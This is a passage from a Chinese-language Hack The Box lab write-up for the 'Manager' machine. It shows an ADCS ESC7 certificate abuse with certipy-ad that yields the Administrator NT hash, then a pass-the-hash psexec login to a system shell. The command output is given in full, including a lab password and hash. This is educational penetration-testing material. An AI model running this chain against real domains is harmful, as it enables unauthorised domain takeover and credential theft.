 第四步：通过 ID 和私钥文件，检索我们发布的证书

```bash
kali@kali[~]$ certipy-ad req -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -retrieve 20     
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 20
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Loaded private key from '20.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

第五步：使用证书进行认证，拿到 `Administrator` 账户的 NT hash

```bash
kali@kali[~]$ certipy-ad auth -pfx administrator.pfx -username Administrator -domain manager.htb -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

现在我们有 Administrator 账户的NT hash了，可以使用 `psexec` 通过PTH连接到受害机器

```bash
kali@kali[~]$ impacket-psexec 'administrator@manager.htb' -hashes aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on manager.htb.....
[*] Found writable share ADMIN$
[*] Uploading file vDevPpBd.exe
[*] Opening SVCManager on manager.htb.....
[*] Creating service IlSN on manager.htb.....
[*] Starting service IlSN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```

---
## 参考链接
1. 文章：使用Guest账户访问SMB
   https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#list-shared-folders
2. 文章：RID爆破
   https://www.thehacker.recipes/ad/recon/ms-rpc#rid-cycling
3. 文章：ADCS ESC7攻击
   https://www.thehacker.recipes/ad/movement/adcs/access-controls#esc7-abusing-subca
4. 工具：NetExec
   https://github.com/Pennyw0rth/NetExec
5. 工具：Impacket
   https://github.com/fortra/impacket
6. 工具：evil-winrm
   https://github.com/Hackplayers/evil-winrm
